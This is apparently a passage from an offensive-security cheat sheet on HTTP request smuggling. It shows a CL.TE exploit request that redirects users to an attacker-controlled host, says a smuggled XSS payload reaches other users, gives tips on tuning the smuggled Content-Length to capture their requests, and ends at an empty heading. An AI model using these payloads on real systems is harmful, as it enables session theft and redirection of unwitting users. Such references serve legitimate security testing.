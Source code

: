 The next user's request is appended to the smuggled one, delivering the XSS payload in their response.

### <mark style="color:yellow;">Open redirect</mark> <a href="#using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect" id="using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect"></a>

<mark style="color:yellow;">**CL.TE**</mark>

```http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Exploit

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

## <mark style="color:yellow;">Content-Length in the smuggled request</mark>

The value in the `Content-Length` header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest.

## <mark style="color:yellow;">HTTP/2 request smuggling</mark>

**HTTP/2 downgrading**

HTTP/2 downgrading converts HTTP/2 requests into HTTP/1 syntax, allowing web servers and proxies to support HTTP/2 clients while communicating with HTTP/1 back-end servers.

## <mark style="color:yellow;">Identification</mark>
